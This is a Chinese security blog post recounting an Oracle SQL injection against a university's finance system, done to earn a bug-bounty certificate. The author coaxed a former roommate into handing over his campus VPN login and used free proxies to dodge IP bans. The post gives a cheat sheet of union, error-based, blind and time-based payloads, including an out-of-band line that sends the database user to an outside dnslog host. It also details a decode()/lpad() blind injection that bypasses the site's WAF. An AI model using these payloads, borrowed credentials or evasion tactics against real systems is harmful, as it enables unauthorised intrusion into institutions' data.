 #  【漏洞挖掘】记一次985证书站Oracle注入绕WAF   
越南王子  Web安全工具库   2025-02-12 16:01  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。个人微信：ivu123ivu# 0x01 前言  
> 看到某985证书挺好看的，我也很想拿一个。碰巧高中舍友是这个学校的，在一番“威逼利诱”下，他也是乖乖地交出了自己的校园VPN账号。  
  
# 0x02 发现注入点  
  
1、因为有了VPN账号密码，所以出洞应该不是什么问题。所以我省去了信息收集的步骤，直接登录其教务处、财务处等核心系统测试。最后也是很快地在其财务系统发现了疑似注入点，如下图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3Eg6thlRV38Cr8SwiczL6Q8Bzuv0Csu3xHhXyCdmOYkHib7bdhqWV2RjQ/640?wx_fmt=png&from=appmsg "")  
  
2、如上图所示，在“支出金额范围（元）”处输入个英文单引号，再点击左上角的“按条件查询”，回显Oracle数据库报错，报错信息为单引号未正确终止。如下图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj307X59qCnOOM1CLh8gIjcCribkX5uFiafsCy7TvQD3FQJ6mbCvibSgViaOw/640?wx_fmt=png&from=appmsg "")  
# 0x03 Oracle注入学习  
  
【联合查询注入】  
```
/?id=1 order by 3 --+ 判断列数

```  
```
/?id=-1 union select null,null,null from dual --+ 获取显位
/?id=-1 union select 1,'2','3' from dual --+ 获取显位

```  
```
/?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+  获取用户名（相当于MYSQL的库名）

```  
```
/?id=-1' union select NULL,(select table_name from user_tables where rownum=1 and owner='XXX'),NULL from dual--+ 获取XXX用户下的表名
```  
```
/?id=-1 union select 1,(select column_name from all_tab_columns where owner='XXX' and table_name='USER' and rownum=1),'3' from dual --+ 获取XXX用户下USER表的字段

```  
```
/?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+ 获取数据

```  
  
【报错注入】  
```
/?id=-1' or 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+
```  
```
/?id=-1' or (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+
```  
```
/?id=-1' or (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null--+
```  
  
【布尔盲注】  
```
/?id=1 and (select ascii(substr(user,1,1))from dual)>65 --+

```  
  
【时间盲注】  
```
/?id=1' and 1=(case when (ascii(substr((select user from dual),1,1))>65) then dbms_pipe.receive_message('RDS',5) else 0 end) --+
```  
  
【DNSLOG带外注入】  
```
/?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.xxxxxx.dnslog.cn/oracle')=1 --+

```  
# 0x04 尝试注入  
  
1、有了上面的笔记，我心想应该很快就能注出来，已经开好漏洞提交的页面准备边注边写报告了，结果payload一贴。。  
  
![467ad7495fa2658f92e5511f852b73fc.jpg](https://mmbiz.qpic.cn/sz_mmbiz_jpg/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3Y8FrxJ7ZcT0ibGM0KClcPJPddSugwatROzlL2VEt6PaRmbZQRUGTTOg/640?wx_fmt=jpeg&from=appmsg "")  
  
2、直接封IP也是难绷。去在线代理池找点免费代理挂上继续测。用上我CTF常年划水的功底，一顿双写大小写编码绕过，但都快把免费IP用完了还是不行。WAF一检测到select、substr、length、instr、ascii等常见函数就会封IP。没办法只能先去搜搜其他师傅的Oracle注入实战贴。发现有decode()这个函数可用。  
```
decode(表达式,value,value1,value2)

```  
  
这个函数的意思是当“表达式”的运算结果等于"value"时，decode函数输出value1；反之若不等，则输出value2。那么我们就可以在“表达式”处逐个字符猜解，结合Oracle除数为0会有特殊报错的特性进行盲注。  
  
![926d64e497da833f9f3803b83f656467.jpg](https://mmbiz.qpic.cn/sz_mmbiz_jpg/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3vNIRxv5675Fp7YE84iaFcTPZA5xm9yKRlUqLAxHulDAe8TLjibBzNOOg/640?wx_fmt=jpeg&from=appmsg "")  
  
3、那么问题来了。decode函数里面的盲注表达式该用什么呢？常见的那些根本没得用，掉小珍珠了。只能先去查查Oracle手册，找点不在WAF黑名单里的冷门函数。也是边找边学，最后发现了lpad()这个字符串填充函数似乎可以一试。  
```
lpad(string, padded_length, [pad_string])
string: 这是你想要填充的原始字符串。
padded_length: 指定结果字符串的总长度。如果这个长度小于原始字符串的长度，那么原始字符串将被截取到指定长度。
pad_string: （可选）用于填充的字符或字符串。如果未指定，默认使用空格字符进行填充。

```  
  
简单说一下，就是如果当前Oracle用户名为wangzi，那么  
lpad(user,1,1) 就为w，  
lpad(user,2,1) 就为wa。而  
lpad(user,9,6) 将输出666wangzi，填充了pad_string位的字符6到左侧，以让输出的字符串达到九位。  
  
4、最终，我们构造出盲注语句  
1/decode(lpad(user,1,1),'A',1,0) ,将其输入在“支出金额范围（元）”处，并点击查询，发现正常报错回显除数为0。说明当前连接的用户名第一个字符不为A。如图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3zbPJMEHzgeJR28wPDpm8S13NLb6cosoqHsznnVf4ZjWnByuTWpZVibw/640?wx_fmt=png&from=appmsg "")  
  
5、以此类推，再继续构造盲注语句  
1/decode(lpad(user,1,1),'C',1,0) ,将其输入在“支出金额范围（元）”处，并点击查询，发现报错回显查询结果超过控制数。证明payload运算结果为1，即当前连接的用户名第一个字符为C。若将此处的C换成其他任何字符，回显都是除数为0。如图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3XAlbPfHibp2mCj5zdIGZicVIExxvs8QSXR9On5drA9MdynlShgCNnWYg/640?wx_fmt=png&from=appmsg "")  
  
6、再继续构造盲注语句  
1/decode(lpad(user,2,1),'CA',1,0) ,将其输入在“支出金额范围（元）”处，并点击查询，发现报错回显仍是除数为0。说明当前的用户名第二个字符不为A。如图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3fxH5psM2G98MmxUtKMQ6ibFKnkyrdOKnJicJnncYnpHJIibAhBfk9XNVg/640?wx_fmt=png&from=appmsg "")  
  
7、如此以来不断遍历字符测试，直到构造出  
1/decode(lpad(user,2,1),'CW',1,0) 。将其输入在“支出金额范围（元）”处，并点击查询，发现报错回显的是查询结果超过控制数。证明payload运算结果为1，即当前连接的用户名第二个字符为W。若将此处的W换成其他任何字符，回显都是除数为0。如图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3Z8biaUwtuFDcZla9EQKXMA5Q7tAQyNoJOE1tJib97Ish0EzicQ4ZY0yRg/640?wx_fmt=png&from=appmsg "")  
  
8、同理，构造   
1/decode(lpad(user,3,1),'CWB',1,0) 和  
1/decode(lpad(user,4,1),'CWBS',1,0) 时，回显不是除数为0，而是查询结果超过控制数。故我们通过盲注，成功得到了该Oracle数据库当前连接的用户名，即CWBS。遍历其它任何字符，盲注第五位的回显都是除数为0，故用户名只有4位。漏洞验证成功！  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuTmRTHib3whu0oMOkRPQoj3YuQWguicRiapoK9PEu8BHpypjhoW3yOrl5c8icy0uqhyg759ticIkYu80A/640?wx_fmt=png&from=appmsg "")  
# 0x05 结语  
  
因为这里的数据包是被全局加密的，而且WAF封得严，所以没能用BP或者脚本进行快速遍历字符进行盲注。不过弄到大半夜也算是勉强注出来了，坐等证书发货。若有不够严谨的地方，还请师傅们批评指正。  
###   
  
  
  
**·****今 日 推 荐**  
**·**  
  
  
> 全书分为4篇，共19章，包括初识Go语言、Go语言基础、Go语言基本数据类型与运算符、流程控制、复合数据类型、函数、指针、结构体、接口、错误处理、并发编程、包管理、标准库、编译与测试工具、反射、MySQL数据库编程、文件处理、网络编程和Go语言在爬虫中的应用等内容。所有知识都结合具体实例进行讲解，涉及的程序代码给出了详细的注释。全书共计98个应用实例，学练结合，读者可以轻松领会Go语言的开发精髓，快速提升开发技能。  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibuHIuM9siaqBNNnw4HqkS4uc6mkiaDwRXDtb3oVsVYRUpsUFmZYlbvl43EjE0dAqIXrhicicbjMe1OpKQ/640?wx_fmt=png "")  
  
  
